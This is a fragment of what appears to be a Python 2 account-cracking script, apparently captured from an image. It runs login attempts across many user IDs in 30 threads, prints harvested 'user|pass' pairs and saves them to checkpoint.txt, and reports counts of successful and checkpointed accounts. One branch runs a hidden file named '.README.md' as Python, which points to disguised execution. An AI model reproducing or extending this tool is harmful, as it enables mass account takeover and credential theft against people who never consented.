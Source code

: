 																	print "[Checkpoint] " + user + " | " + pass7
																	cps = open("checkpoint.txt", "a")
																	cps.write(user+"|"+pass7+"\n")
																	cps.close()
																	cpb.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print (40*"-")
	print ("[✓] Process Has Been Completed ....")
	print ("[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb)))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	print (40*"-")
	raw_input("\n[Back]")
	if xxx == "0":
		crack_menu()
	else:
		os.system("python2 .README.md")
		
		
		
###### RUN SCRIPT ######

if __name__ == "__main__":
	menu()

